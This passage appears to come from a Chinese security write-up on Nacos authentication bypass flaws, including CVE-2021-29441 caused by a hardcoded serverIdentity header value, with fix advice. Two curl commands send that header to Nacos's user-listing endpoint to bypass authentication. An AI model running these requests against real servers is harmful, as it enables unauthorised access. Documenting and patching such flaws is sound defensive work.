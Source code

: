 ```  
  
3.  
application.properties里默认server.identity为如下  
```
nacos.core.auth.server.identity.key=serverIdentity
nacos.core.auth.server.identity.value=security
```  
  
所以这样也是可以绕过  
```
curl "http://127.0.0.1:8848/nacos/v1/auth/users?pageNo=1&pageSize=9&search=blur" -H "serverIdentity: security"
```  
  
  
**6.修复**  
  
1.2.0版本及以上的nacos，修改配置文件中的nacos.core.auth.plugin.nacos.token.secret.key即可,  
否则无法启动节点。  
  
1.1.4版本及以下的nacos，由于私钥写死到了代码里，用户无法自行配置，只能升级nacos到2,2,1以上版本  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/mfPo9TiaS3coAKiaKLLG0Apn3z0m0xkTfPGXWiaDTW2z0bZ2rDvLiaNiaSPTmcux3pzc8hsTMsj4h360Hfuax7pltmA/640?wx_fmt=png "")  
  
CVE-2021-29441 Nacos权限认证绕过漏洞  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ibwbKh16rrm4yUEtxo5kFpqxcbTE8tDVW3PEPKaMia7XxibwcCvvHprfN0ic1Aq0DpUksLnJvU7IFuWmWmxticKKr8g/640?wx_fmt=png "")  
  
  
  
细心的读者应该发现上面提到过这个问题  
  
**1,漏洞产因**  
  
当开启 Nacos 权限认证（nacos.core.auth.enabled=true）后，配置文件中存在默认值：  
  
```
nacos.core.auth.server.identity.key=serverIdentity 
nacos.core.auth.server.identity.value=security
```  
  
  
该硬编  
码导致攻击者可以构造携带该 key 和 value 的请求，从而绕过权限认证。  
  
**2.漏洞影响版本**  
  
Nacos <= 2.2.0  
  
**3.复现**  
  
指纹  
  
```
curl "http://192.168.233.131:8848/nacos/v1/auth/users?pageNo=1&pageSize=9&search=blur" -H "serverIdentity: security"
```  
  
  
正常是不能访问的.403  
  
```